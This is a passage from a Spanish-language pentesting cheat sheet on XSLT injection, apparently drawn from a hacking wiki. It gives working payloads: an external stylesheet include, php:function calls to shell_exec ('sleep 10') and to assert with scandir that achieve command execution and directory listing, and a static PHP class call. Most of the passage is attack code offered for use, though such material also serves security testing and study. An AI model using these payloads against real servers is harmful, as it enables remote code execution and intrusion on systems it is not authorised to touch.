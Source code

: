 ```xml
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="http://external.web/ext.xsl"?>
```
## Ejecutar código

### **php:function**
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','sleep 10')" />
</xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)));')" />
<br />
</body>
</html>
```
Ejecutar código utilizando otros frameworks en el PDF

### **Más Lenguajes**

**En esta página puedes encontrar ejemplos de RCE en otros lenguajes:** [**https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt\_injection#C%23%2FVB.NET%2FASP.NET**](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt\_injection#C%23%2FVB.NET%2FASP.NET) **(C#, Java, PHP)**

## **Acceder a funciones estáticas de PHP desde clases**

La siguiente función llamará al método estático `stringToUrl` de la clase XSL:
```xml
<!--- More complex test to call php class function-->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<xsl:output method="html" version="XHTML 1.0" encoding="UTF-8" indent="yes" />
<xsl:template match="root">
<html>
<!-- We use the php suffix to call the static class function stringToUrl() -->
<xsl:value-of select="php:function('XSL::stringToUrl','une_superstring-àÔ|modifier')" />
<!-- Output: 'une_superstring ao modifier' -->
</html>
</xsl:template>
</xsl:stylesheet>
```
(Example from [http://laurent.bientz.com/Blog/Entry/Item/using\_php\_functions\_in\_xsl-7.sls](http://laurent.bientz.com/Blog/Entry/Item/using\_php\_functions\_in\_xsl-7.sls))
